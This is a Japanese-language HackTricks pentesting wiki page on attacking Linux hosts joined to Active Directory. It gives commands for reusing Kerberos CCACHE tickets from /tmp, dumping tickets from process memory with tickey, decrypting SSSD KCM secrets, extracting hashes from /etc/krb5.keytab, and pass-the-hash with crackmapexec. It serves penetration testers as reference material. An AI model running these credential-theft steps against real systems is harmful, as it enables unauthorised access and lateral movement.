 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Linuxマシンは、Active Directory環境内にも存在する可能性があります。

AD内のLinuxマシンは、**異なるCCACHEチケットをファイル内に保存している可能性があります。このチケットは、他のKerberosチケットと同様に使用および悪用できます**。これらのチケットを読み取るには、チケットのユーザー所有者であるか、**root**である必要があります。

## 列挙

### LinuxからのAD列挙

Linux（またはWindowsのbash）でADにアクセスできる場合、[https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn)を試してADを列挙できます。

LinuxからADを列挙する**他の方法**を学ぶには、次のページを確認できます：

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPAは、主に**Unix**環境向けのMicrosoft Windows **Active Directory**のオープンソース**代替**です。Active Directoryに類似した管理のために、完全な**LDAPディレクトリ**とMIT **Kerberos**キー配布センターを組み合わせています。CAおよびRA証明書管理のためにDogtag **Certificate System**を利用し、スマートカードを含む**多要素**認証をサポートしています。Unix認証プロセスのためにSSSDが統合されています。詳細については、以下を参照してください：

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## チケットを使った遊び

### パス・ザ・チケット

このページでは、**Linuxホスト内でKerberosチケットを見つけることができるさまざまな場所**を見つけることができます。次のページでは、このCCacheチケット形式をKirbi（Windowsで使用する必要がある形式）に変換する方法と、PTT攻撃を実行する方法を学ぶことができます：

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### /tmpからのCCACHEチケット再利用

CCACHEファイルは、**Kerberos資格情報**を保存するためのバイナリ形式で、通常は`/tmp`に600の権限で保存されます。これらのファイルは、ユーザーのUIDに関連する**名前形式、`krb5cc_%{uid}`**で識別できます。認証チケットの検証には、**環境変数`KRB5CCNAME`**を希望するチケットファイルのパスに設定する必要があり、再利用を可能にします。

`env | grep KRB5CCNAME`を使用して、認証に使用されている現在のチケットをリストします。形式はポータブルで、環境変数を設定することでチケットを**再利用できます**。`export KRB5CCNAME=/tmp/ticket.ccache`を使用します。Kerberosチケットの名前形式は`krb5cc_%{uid}`で、uidはユーザーのUIDです。
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE チケットの再利用とキーチェーン

**プロセスのメモリに保存された Kerberos チケットは抽出可能です**。特に、マシンの ptrace 保護が無効になっている場合（`/proc/sys/kernel/yama/ptrace_scope`）。この目的に役立つツールは [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey) にあり、セッションに注入してチケットを `/tmp` にダンプすることで抽出を容易にします。

このツールを設定して使用するには、以下の手順に従います：
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
この手順は、さまざまなセッションに注入を試み、抽出されたチケットを`/tmp`に`__krb_UID.ccache`という命名規則で保存することで成功を示します。

### SSSD KCMからのCCACHEチケットの再利用

SSSDは、`/var/lib/sss/secrets/secrets.ldb`のパスにデータベースのコピーを保持しています。対応するキーは、`/var/lib/sss/secrets/.secrets.mkey`のパスに隠しファイルとして保存されています。デフォルトでは、キーは**root**権限を持っている場合にのみ読み取ることができます。

\*\*`SSSDKCMExtractor` \*\*を--databaseおよび--keyパラメータで呼び出すと、データベースを解析し、**秘密を復号化**します。
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
**資格情報キャッシュKerberosブロブは、Mimikatz/Rubeusに渡すことができる使用可能なKerberos CCache**ファイルに変換できます。

### keytabからのCCACHEチケット再利用
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### /etc/krb5.keytab からアカウントを抽出する

サービスアカウントキーは、ルート権限で動作するサービスに不可欠であり、**`/etc/krb5.keytab`** ファイルに安全に保存されています。これらのキーは、サービスのパスワードに似ており、厳格な機密性が求められます。

keytabファイルの内容を確認するには、**`klist`** を使用できます。このツールは、特にキータイプが23として識別される場合に、ユーザー認証のための**NT Hash**を含むキーの詳細を表示するように設計されています。
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Linuxユーザーにとって、**`KeyTabExtract`** はRC4 HMACハッシュを抽出する機能を提供し、これをNTLMハッシュの再利用に活用できます。
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
macOSでは、**`bifrost`**はkeytabファイル分析のためのツールとして機能します。
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
抽出したアカウントとハッシュ情報を利用して、**`crackmapexec`** のようなツールを使用してサーバーへの接続を確立できます。
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## 参考文献
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
